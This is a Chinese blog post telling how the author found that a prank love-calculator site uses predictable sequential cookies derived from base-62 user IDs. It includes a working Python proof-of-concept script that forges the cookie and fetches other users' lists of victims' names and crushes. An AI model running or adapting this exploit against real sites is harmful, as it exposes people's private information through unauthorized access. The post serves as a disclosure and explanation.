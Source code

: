 ```yaml
---
title: "資安小故事 - 餅乾猜猜樂"
date: 2018-11-21 00:00:00
tags:
- security
---
```


事情是這樣的，我在別人的挨居的自介上面看到一個連結，就好奇的點了進去

{% img /images/lovemeter-1.png 500 %}

裡面看起來就是那種心裡測驗的網站，愛情計算器，幫你測你和喜歡的人配不配

聰明如我<del>資安小天才</del>，當然是隨便亂打個 abcd 就送出看看這是在耍什麼花樣

{% img /images/lovemeter-2.png 500 %}

果然是愚弄人的網站，如果你誠實的填上你的名字和你喜歡的人的名字，就被分享給你連結的人看光光啦

在你生氣的同時，這個網站就很好心的讓你註冊一下好發洩怨氣

那我當然也順手按了一下註冊（免錢的隨手按一下），這時候就可以把連結分享給別人囉

這個可以看中了我的圈套的受害者名單的頁面，我只要把 cookie 清掉，就會被帶到前面第一個愛情計算器（陷阱）頁面，代表他有用 cookie 去驗證你是誰

* 有對的 cookie 他會給我受害者名單
* 不對的 cookie 他會讓我掉進陷阱

那在看看他的 cookie 之前眼尖的我，就發現他的 url 有些地方像像的，而且後面的 userid 很短

* `https://cn.lovemeter.me/user/5S1X`
* `https://cn.lovemeter.me/user/5S1Y`
* `https://cn.lovemeter.me/user/5S1Z`

多註冊幾次會發現，他的 userid 怎麼感覺好像是每次 counter++

再多嘗試幾次，就會發現 userid 的字元只會是 `0-9a-zA-Z` 的字元組成

然後重點是他的 cookie 是個數字，而且完完全全是 counter++ 的樣子

* `user_quiz_1399337=1399337`
* `user_quiz_1399337=1399338`
* `user_quiz_1399337=1399339`

那這個 userid 跟這個 cookie 的 id 的對照是怎麼樣的呢

猜一猜就能發現他其實是把 `0-9a-zA-Z` 當成 `0-61` 的 62 進位（很合理吧）

```python
convert('5S1X') =  5 * (62 ** 3) +
                  54 * (62 ** 2) +
                   1 * (62 ** 1) +
                  59 * (62 ** 0) = 1399337
```

那我們只要把他的 userid 轉回數字，並新增個 cookie，就能成功看到別人的受害者名單囉

## Proof Of Concept ( POC )

```python source code
#!/usr/bin/env python3
import re
import sys
import json
import string
from prettytable import PrettyTable
import requests

if len(sys.argv) < 2:
    print('usage: ./lovemeter.py (url)')
    exit(0)

value = string.digits + string.ascii_letters

def uid2num(uid):
    num = 0
    for ch in uid:
        v = value.index(ch)
        num = num * len(value) + v
    return num

def num2uid(num):
    uid = ''
    while num > 0:
        v = num % len(value)
        uid += value[v]
        num //= len(value)
    return uid[::-1]

url = sys.argv[1]
r = re.search('https:\/\/(\w+)\.lovemeter.me\/\w+\/(\w+)', url)
prefix = r.group(1)
uid = r.group(2)
num = uid2num(uid)

r = requests.get(f'https://{prefix}.lovemeter.me/other-user-stats/{uid}', headers = {
    'cookie': f'user_quiz_{num}={num}',
    'user-agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A5370a Safari/604.1'
})

data = json.loads(r.text)['data']
t = PrettyTable(['名字', '喜歡的人'])
for item in data:
    item = json.loads(item)
    t.add_row([item['userFullName'], item['crushFullName']])
print(t)
```

```bash usage
python lovemeter.py https://cn.lovemeter.me/user/1234
```
